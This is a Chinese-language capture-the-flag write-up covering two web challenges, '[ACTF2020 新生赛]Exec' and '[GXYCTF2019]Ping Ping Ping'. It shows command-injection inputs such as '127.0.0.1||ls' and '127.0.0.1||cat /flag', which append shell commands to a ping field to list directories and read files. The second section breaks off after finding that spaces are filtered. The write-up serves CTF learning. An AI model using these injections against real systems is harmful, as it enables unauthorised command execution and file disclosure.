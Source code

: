 ## [ACTF2020 新生赛]Exec

知识点:命令执行漏洞

题目给了一个ping地址的框，题目名为exec，很明显考察命令执行漏洞

![1626080988071](buuweb_page1.assets/1626080988071.png)

因为为exec，可以直接执行命令，先ls一下看看

```
127.0.0.1||ls
```

![1626081068558](buuweb_page1.assets/1626081068558.png)

```
127.0.0.1||cat index.php
```

![1626081102690](buuweb_page1.assets/1626081102690.png)

```
看一下根目录有啥
127.0.0.1||ls /
```

![1626081140321](buuweb_page1.assets/1626081140321.png)

直接cat flag

```
127.0.0.1||cat /flag
```

![1626081165663](buuweb_page1.assets/1626081165663.png)



## [GXYCTF2019]Ping Ping Ping

刚进来提示我们给ip传参，想到可能存在命令执行直接ls一下

![1626084718735](buuweb_page1.assets/1626084718735.png)



```
?ip=127.0.0.1||ls
```

```
?ip=127.0.0.1||cat index.php
```

发现空格被ban了

![1626084777193](buuweb_page1.assets/1626084777193.png)
